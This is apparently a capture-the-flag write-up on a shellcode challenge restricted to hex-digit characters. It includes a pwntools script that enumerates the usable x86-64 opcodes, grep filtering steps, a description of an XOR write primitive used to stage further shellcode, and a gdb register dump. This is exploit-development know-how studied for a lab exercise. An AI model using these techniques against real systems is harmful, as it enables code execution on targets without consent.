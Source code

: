 <h2>Valid Optcodes</h2>
Since we have a rather limited charset of "0123456789ABCDEF" I wanted to know all possible instructions using these opcodes. I noticed most of these were XOR instructions so wrote a script to get all possible permutations of these bytes. I then used the pwn.disasm module to disassemble them. One thing to note is that I padded it with a lot of nops so opcodes didn't collide with each other
```python 
from pwn import *
from itertools import permutations

perm = []

for i in range(5):
    perm.append(list(permutations(list("0123456789ABCDEF"),i)))


optcodes = b""


for l in perm:
    for i in l:
        optcodes += "".join(i).encode('latin') + b'\x90'*10

context.arch = 'amd64'
print(disasm(optcodes))
```

After running this script we got a gigantic file, using more filtering using grep I had a pretty good list of good opcodes. One thing to note is that from the other writeups it was pretty obvious that XOR was the way to win so I filtered out all the cmp, xchg and rex instructions.
```bash 
python3 find_ops.py > optcodes
grep -v 90 optcodes  > optcodes2
grep -v bad optcodes2 > optcodes3
grep -v cmp optcodes3 > optcodes4
grep -v rex optcodes4 > optcodes5
sed 's/^.\{16\}//' optcodes5 > optcodes6 
sort optcodes6 | uniq > optcodes7
grep -v \* optcodes7 > optcodes8
```

The overall idea of this challenge is to use XOR to set a register to a write value and another one to an address to write. Using this write primitive we can write a stager shellcode that allows us to read in more shellcode.

A major part of this challenge was reusing the registers that already existed, one thing to note is that on Ubuntu 22.04 the rbx value is NOT `__libc_csu_init`, instead its null. I know on remote this was true so I patched it using binja and gdb.

```gdb 
$rax   : 0x00133713370000  →  "41420A00000000000000000000000000000000000000000000[...]"
$rbx   : 0x00556cf516b450  →  <__libc_csu_init+0> push r15
$rsi   : 0x00133713370000  →  "41420A00000000000000000000000000000000000000000000[...]"
$rcx   : 0x00556cf516e060  →  "0123456789ABCDEF"
$rdx   : 0x001337133700c6  →  0x00000000003030 ("00"?)


$rsp   : 0x007ffdc37f1b48  →  0x00556cf516b447  →  <main+150> mov eax, 0x0
$rbp   : 0x007ffdc37f1b60  →  0x0000000000000000
$rdi   : 0x007ffdc37f1ab0  →  0x000000000a4241 ("AB\n"?)
$rip   : 0x00133713370000  →  "41420A00000000000000000000000000000000000000000000[...]"
$r8    : 0xffffffff
$r9    : 0x0
$r10   : 0x00556cf516a5a9  →  0x65766f6d6d656d ("memmove"?)
$r11   : 0x007f4e51f7b6e0  →  <__memmove_avx_unaligned_erms+0> endbr64
$r12   : 0x00556cf516b0b0  →  <_start+0> xor ebp, ebp
$r13   : 0x007ffdc37f1c50  →  0x0000000000000001
```